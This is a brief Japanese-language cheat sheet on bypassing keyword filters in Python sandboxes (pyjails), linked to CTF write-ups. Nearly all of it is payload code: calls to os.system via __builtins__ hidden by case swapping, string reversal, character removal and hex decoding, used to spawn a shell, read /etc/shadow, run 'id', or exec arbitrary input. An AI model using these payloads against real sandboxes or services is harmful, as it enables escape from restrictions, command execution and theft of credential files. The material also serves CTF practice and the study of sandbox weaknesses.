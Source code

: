 # フィルターバイパス

## 例１

```
__builtins__.__dict__['__import__']('os').__dict__['system']('sh')

__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cat /etc/shadow')
```

の様々な表現

```sh
>> __builtins__.__dict__['__IMPORT__'.swapcase()]('OS'.swapcase()).__dict__['SYSTEM'.swapcase()]('SH'.swapcase())

>> __builtins__.__dict__['__tropmi__'[::-1]]('so'[::-1]).__dict__['metsys'[::-1]]('hs'[::-1])

>> __builtins__.__dict__['__imXport__'.replace('X','')]('oXs'.replace('X','')).__dict__['sXystem'.replace('X','')]('sXh'.replace('X',''))

>> __builtins__.__dict__[str(bytes.fromhex('5f5f696d706f72745f5f'),'utf-8')](str(bytes.fromhex('6f73'),'utf-8')).__dict__[str(bytes.fromhex('73797374656d'),'utf-8')](str(bytes.fromhex('7368'),'utf-8'))

>> __builtins__.__dict__['cexe'[::-1]](input())
__import__("os").system("id")
```

https://jaxafed.github.io/posts/tryhackme-breakme/#shell-as-root

## ユニコードバイパス

https://shirajuki.js.org/blog/pyjail-cheatsheet#unicode-bypass
